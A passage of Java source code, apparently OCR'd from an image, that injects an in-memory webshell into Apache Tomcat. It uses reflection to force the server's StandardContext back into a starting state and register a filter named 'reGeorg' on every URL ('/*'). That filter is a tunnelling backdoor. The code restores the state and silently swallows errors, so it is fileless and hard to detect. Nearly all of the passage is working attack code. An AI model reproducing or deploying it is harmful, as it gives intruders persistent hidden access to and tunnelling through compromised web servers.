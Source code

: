 ```java
        this.session = (javax.servlet.http.HttpSession ) context[2];
        this.response = (org.apache.catalina.connector.Response) context[1];
        this.request = (javax.servlet.http.HttpServletRequest) context[0];

        try {
            dynamicAddFilter(new MemReGeorg(),"reGeorg","/*",request);
        } catch (IllegalAccessException e) {
            e.printStackTrace();
        }

        return true;
    }

    public static void dynamicAddFilter(javax.servlet.Filter filter,String name,String url,javax.servlet.http.HttpServletRequest request) throws IllegalAccessException {
        javax.servlet.ServletContext servletContext=request.getServletContext();
        if (servletContext.getFilterRegistration(name) == null) {
            java.lang.reflect.Field contextField = null;
            org.apache.catalina.core.ApplicationContext applicationContext =null;
            org.apache.catalina.core.StandardContext standardContext=null;
            java.lang.reflect.Field stateField=null;
            javax.servlet.FilterRegistration.Dynamic filterRegistration =null;

            try {
                contextField=servletContext.getClass().getDeclaredField("context");
                contextField.setAccessible(true);
                applicationContext = (org.apache.catalina.core.ApplicationContext) contextField.get(servletContext);
                contextField=applicationContext.getClass().getDeclaredField("context");
                contextField.setAccessible(true);
                standardContext= (org.apache.catalina.core.StandardContext) contextField.get(applicationContext);
                stateField=org.apache.catalina.util.LifecycleBase.class.getDeclaredField("state");
                stateField.setAccessible(true);
                stateField.set(standardContext,org.apache.catalina.LifecycleState.STARTING_PREP);
                filterRegistration = servletContext.addFilter(name, filter);
                filterRegistration.addMappingForUrlPatterns(java.util.EnumSet.of(javax.servlet.DispatcherType.REQUEST), false,new String[]{url});
                java.lang.reflect.Method filterStartMethod = org.apache.catalina.core.StandardContext.class.getMethod("filterStart");
                filterStartMethod.setAccessible(true);
                filterStartMethod.invoke(standardContext, null);
                stateField.set(standardContext,org.apache.catalina.LifecycleState.STARTED);
            }catch (Exception e){
                ;
            }finally {
                stateField.set(standardContext,org.apache.catalina.LifecycleState.STARTED);
            }
        }
    }
}

```
